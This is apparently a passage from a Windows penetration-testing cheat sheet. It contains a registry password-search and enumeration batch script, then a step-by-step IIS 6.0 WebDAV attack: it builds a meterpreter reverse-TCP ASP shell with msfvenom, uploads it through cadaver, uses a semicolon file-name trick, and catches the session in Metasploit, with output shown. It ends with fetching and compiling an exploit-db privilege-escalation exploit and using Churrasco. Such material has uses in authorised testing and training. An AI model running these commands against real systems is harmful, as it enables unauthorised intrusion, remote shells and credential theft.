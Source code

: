          reg query HKCU /f password /t REG_SZ /s >> report.txt 
         timeout 1
         dir "C:\"
         timeout 1
         dir "C:\Program Files\" >> report.txt
         timeout 1
         dir "C:\Program Files (x86)\"
         timeout 1
         dir "C:\Users\"
         timeout 1
         dir "C:\Users\Public\"
         timeout 1
         echo REPORT COMPLETE!


-   Windows Server 2003 and IIS 6.0 WEBDAV Exploiting
http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html

         msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f asp > aspshell.txt

         cadavar http://$ip
         dav:/> put aspshell.txt
         Uploading aspshell.txt to `/aspshell.txt':
         Progress: [=============================>] 100.0% of 38468 bytes succeeded.
         dav:/> copy aspshell.txt aspshell3.asp;.txt
         Copying `/aspshell3.txt' to `/aspshell3.asp%3b.txt':  succeeded.
         dav:/> exit

         msf > use exploit/multi/handler
         msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
         msf exploit(handler) > set LHOST 1.2.3.4
         msf exploit(handler) > set LPORT 80
         msf exploit(handler) > set ExitOnSession false
         msf exploit(handler) > exploit -j

         curl http://$ip/aspshell3.asp;.txt

         [*] Started reverse TCP handler on 1.2.3.4:443 
         [*] Starting the payload handler...
         [*] Sending stage (957487 bytes) to 1.2.3.5
         [*] Meterpreter session 1 opened (1.2.3.4:443 -> 1.2.3.5:1063) at 2017-09-25 13:10:55 -0700

-   Windows privledge escalation exploits are often written in Python. So, it is necessary to compile the using pyinstaller.py into an executable and upload them to the remote server.

         pip install pyinstaller
         wget -O exploit.py http://www.exploit-db.com/download/31853  
         python pyinstaller.py --onefile exploit.py

-   Windows Server 2003 and IIS 6.0 privledge escalation using impersonation: 

      https://www.exploit-db.com/exploits/6705/
   
      https://github.com/Re4son/Churrasco
      
         c:\Inetpub>churrasco
         churrasco
         /churrasco/-->Usage: Churrasco.exe [-d] "command to run"
